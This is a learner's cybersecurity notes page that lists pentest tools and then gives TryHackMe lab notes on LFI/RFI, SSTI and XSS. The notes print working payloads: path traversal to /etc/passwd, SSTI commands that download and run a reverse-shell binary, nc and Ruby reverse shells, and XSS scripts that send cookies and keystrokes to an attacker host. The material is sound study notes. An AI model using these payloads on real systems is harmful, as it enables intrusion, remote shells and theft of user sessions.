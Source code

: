 ---

#   Cybersecurity: Notes and Projects - Main Overview



----

[Back to website home page](https://jeremylaratro.link)

----
This page will serve as the main overview and summary of my CS notes and projects. More specific and detailed notes/labs/CTFs will be linked below and have their own pages. 
----

> ### **My latest post:**
## [OWASP Juice Shop -- Notes and Walkthrough](/CS/juice_shop)
## [hackerone -- Notes and Walkthrough](/CS/hacker_one_ctf)
##  [GoLang -- Notes](/CS/golang)
## [SMB Exploitation -- Notes](/CS/smb)



-----------

### **Resources: My Reading List & Accounts**
<details>

<summary>
My Reading List & Resources
</summary>

* Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali (OccupyTheWeb)
* Penetration Testing A Hands-On Introduction to Hacking (Weidman, Georgia)
* Becoming A Master Hacker (OccupyTheWeb)
* Competitive Programming in Python 128 Algorithms to Develop your Coding Skills (Christoph Dürr, Jill-Jênn Vie)
* Real-World Bug Hunting A Field Guide to Web Hacking (Peter Yaworski)
* [Codecademy Profile](https://www.codecademy.com/profiles/JeremyLaratro)
* [TryHackme.com Profile (In the top 8% of users!)](https://tryhackme.com/p/jeremylaratro)
* HackTheBox.com 
* Hacktricks.xyz
* [Picoctf.org Profile](https://play.picoctf.org/users/jeremylaratro)
* [LeetCode Profile](https://leetcode.com/jeremylaratro/)

</details>


----------


### **Overview, Tools, and Pathways**

>These are tools in which I am familiar with -- and are some of the go-to tools I use when starting a machine, CTF, lab, challenge, etc. These tools generally fall into the reconnaissance and vulnerability assessment steps.  \
>While these tools are great for increasing efficiency and speed, I do think it's incredibly important to understand what these tools do, and I will go into much more detail regarding the manual use of these methods both below (towards the bottom of the page) as well as in practice, on the individual lab/machine writeup/notes pages.  

<details>

<summary>
General Enumeration | Scanning | Reconnaissance
</summary>


>>#### whatweb

>- This is often the first tool used when given a domain, to determine basic info about the web server (in cases where a domain is the given target) and to obtain the IP address.


>>####  Nmap  

>- Among the most commonly used tools, nmap allows one to scan the target machine and gain a great deal of information about it, including open ports, services, and even vulnerability assessment via
>- scripts. 


>>####  wpscan  

>- If a wordpress site is identified, wpscan is extremely useful in finding potential vulnerabilities by enumerating plugins along with various other powerful features including bruteforce attacks if xmlrpc is enabled.


>>####  Nessus  

>- Nessus is an all-around vulnerability scanner and can help identify potential vulnerabilities and avenues of attack


>>####  OWASP Zap  

>- OWASP Zap is a GUI-based scanning tool that is focused on the OWASP top 10 vulnerabilities. This is another tool that can be useful in determining potential vulnerabilities.


>>####  Dig, dnsenum, and nslookup

>- These tools, along with various others, are useful in automating the process of DNS queries and can be extremely useful in reconnaissance of a website and in understanding the ownership and relationship between domain names and IPs.</details>

>>####  Shodan
> - Extremely powerful banner search engine.

</details>

-----------

<details>
 
<summary>
|Exploitation and Investigation Tools|
</summary>




### **Web and Network Exploitation**

>There are thousands and thousands of different tools, scripts, and applications out there for all the various different attack types and vulnerabilities. The following are ones which I have personally used in labs and challenges and which I am at least fairly comfortable using.


>####  BURP Suite

>> - Powerful proxy -> intercept and modify requests, leading to a large variety of potential uses

>####  Metasploit

>> - Massive collection of known exploits, scripts, payloads, and database

>####  SQLMap 

>> - SQLi scanner and exploitation tool

>####  dirb, dirbuster, gobuster 

>> - Directory enumeration

>####  ffuf, hydra 

>> - Web fuzzing, directory enumeration, account brute forcing

>####  sstimap, lfimap 

>> - LFI and SSTI vulnerability scanner and exploitation tool

>####  xsssniper

>> - XSS scanner and exploitation tool

>####  rapidscan 

>> - Tool which essentially creates a suite of other popular exploitation tools like sqlmap, dirb, etc. 


----------


### **Offline Tools**


>####  hashcat

>> - GUI-accelerated password cracking tool. Extremely quick.

>####  John the Ripper

>> - Another password cracking tool, particularly useful for it's auto-detection and john2'other' conversion scripts. 

>####  cewl, crunch

>> - Custom password and wordlist generators


>####  binwalk, exiftools, strings, cat

>> - Linux file analysis tools

</details>

----------

### **Areas I'd Like to Improve**



<details>

<summary>
Areas I'd Like to Improve
</summary>


>####  Reverse Engineering

> - One of the areas I'd specifically like to improve in is reverse engineering. This requires a solid working knowledge
> of languages commonly used to build malware, which leads to the next area I'd like to improve -- expanding my programming knowledge.

>####  Programming

> - Currently, I am intermediate with Python and in the process of learning Java/Javascript, C & C++, and Go (ie. comfortable or familiar with general OOP, functions, data types, etc), but not necessarily at the level where I can efficiently solve LeetCode level questions that I would be able to in Python. I'm learning C++ as more of a fundamentals lesson in understanding the low(er) level processes but prefer Go in practice, and find Java to be much closer to Python in terms of difficulty, but am not quite as familiar with it as I am with Python, though I am becoming quite comfortable with the syntax of these languages. 

>#### SSTI and RCE

> - I would like to become less reliant upon tools when attempting to exploit SSTI and RCE vulnerabilities, and thus,
> I need to improve my understanding of PHP and common web frameworks in order to be able to develop my own exploits.

</details>


----------

## **Notes**
> *Notes from labs, CTF's, and machine's on HackTheBox, TryHackMe, OWASP Juice Shop, etc.*


<details>
<summary>
Local File Inclusion and Remote File Inclusion Overview
</summary>

-----

>### **LFI: Local File Inclusion**

-----

Notes from TryHackMe's LFI/RFI room. 


Local file inclusion is a vulnerability that can allow attackers to 

traverse the file system due to improperly or non-sanitized requests. 

This may allow an attacker to access sensitive files, ie /etc/passwd


Commonly used attack vector for LFI is '/../../'


````

get.php?file=../../../../etc/passwd

````


This allows traversal through layers of the directories to the root or target folder/directory. How many times depends on the specific system.

This can be determined by encouraging an error, ie:


````

 index.php?lang=jfbdsgd

 ````

 which then may return an error containing something along the lines of:


````

 in /var/www/html/lab2.php on line 26'

 ````

 
 The presence of 4 layers can be derived from this, and thus, 4 levels can be used for the attack:


 ```python

 index.php?lang=../../../../etc/passwd

 ```

 OS info can be derived as well:


```

 /get.php?file=../../../../boot.ini

 /get.php?file=../../../../windows/win.ini

 
 ```

 Sanitization and filter evasion:

 
 In PHP 5.3.3 and below, NULL bytes can be used to signify end of string and stop .php extension from being appended

 index.php?lang=../../../../etc/passwd%00

 
 Using a '.' can also be used to signify staying within the directory


````

 ../../../../etc/passwd/.

 ````

 Forced directory - if developer forces a directory, evasion is possible by understanding where that directory lies within the levels.

 Evasion may be as simple as adding an extra layer, ie:


````

 /../../../etc/passwd  --> /../../../../etc/passwd

 ````


 Burp suite can be used to evade any request filters that may filter or change characters

Try POST, GET 

If _REQUEST is being used, take advantage of cookies: 


````

POST /challenges////////////chall3.php HTTP/1.1

Host: 10.10.120.210

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.120.210/challenges///////////chall3.php?file=

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Cookie: =../../../etc/flag3

Connection: close

Content-Type: application/x-www-form-urlencoded

Content-Length: 25


file=../../../etc/flag3%00

```` 


--------------------------


>### **RFI: Remote File Inclusion**


---------

 
RFI is similar to LFI but involves remote inclusion of files and potentially RCE. It depends on the function:

allow_url_fopen


Overview:

Payload is hosted on attackers servers -> payload injected via HTTP requests using include function -> payload is executed


````

GET /page.php?file=

lang=http://0.0.0.0/r.elf

````


````

O:8:"_construct":1:{s:4:"cookie";s:10:"Some data!";} 

````


Tools:


````

- lfimap

- lfitester

- vailyn

````


</details> 


<details>
<summary>
Server-Side Template Injection - SSTI
</summary>


Notes from SSTI Lab on TryHackMe.


Common test-cases:


````

{7*7}

{{7*7}}'

a{{bar}}b

{var} ${var} {{var}} <%var%> [% var %]


````


1.  Start local server.


````

python3 -m http.server 80


````

2. Test functionality of python server remotely using JS and curl.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl http://10.10.16.5")}


10.10.16.5


````

3. Create reverse shell payload and initialize a netcat listener for it. 


````

msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.5.0.2 LPORT=5010 -f elf > r.elf


nc -lvnp 443


````

4. Perform the SSTI, getting RCE on the server.


````

*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("wget 10.5.0.2:5003/r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("chmod 777 ./r.elf")}


*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("./r.elf")}


*{os.system("nc -e /bin/sh 10.10.16.5 5010")}

<%=system("ruby%20-rsocket%20-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%2210.5.0.2%22%2C5007%29%29%27")%>

````


Tools:


````


- sstimap


````


</details>




<details>
<summary>
XSS
</summary>



Injection attack where a malicious payload can be injected into a web page and potentially result in an attacker getting user, staff, or other sensitive data


Check:

	
~~~

<script>alert('XSS');</script>

~~~

	
Session stealing:

	
~~~

<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>

~~~

Key loggger:

	
~~~

<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>

~~~



	
~~~

<script>user.changeEmail('attacker@hacker.thm');</script>

~~~


#### Stored

Stored XSS is XSS where a payload is injected into a webpage, and stored at the server level, resulting in that malicious code's presentation to other users of the site. This allows for various serious threats. 

Attack Vectors:

Comments on a blog

User profile information

Website Listings



#### Reflected

Reflected XSS, on the other hand, is XSS where the payload is reflected only on the page instance itself. Attackers must send a link to the altered page to a victim to take advantage of reflected XSS, as it is not stored at the server level.

Attack Vectors:

Parameters in the URL Query String

URL File Path 


	
#### DOM

DOM-based XSS depends on JS code executing locally and not server-side. This allows for an attacker to exploit specific JS function and then, like reflected XSS, send a link with the malicious code injected. Requires a deeper level of JS to exploit. 

Attack Vectors:

eval()


	
#### Blind

Blind XSS is XSS where malicious code is presented to other users, as in stored XSS, however you are unable to see it. In order for attackers to take advantage of this XSS, an HTML callback is incorporated into the payload.



Evasion:

	
~~~

"><script>alert(1);</script>

~~~

	
Close tag of encapsulating div:

	
~~~

</textarea><script>alert(1);</script>

~~~

	
Filter evasion:

Filter for 'script' --> sscriptcript

	
~~~

<sscriptcript>alert(1);</sscriptcript>

~~~

	
Within an image:

	
~~~

/images/cat.jpg" onload="alert(1);

~~~

	
Tools:

	
````

	
- xsshunter

- xsssniper

- xssstealer

- garud

- 0d1n

````


</details>



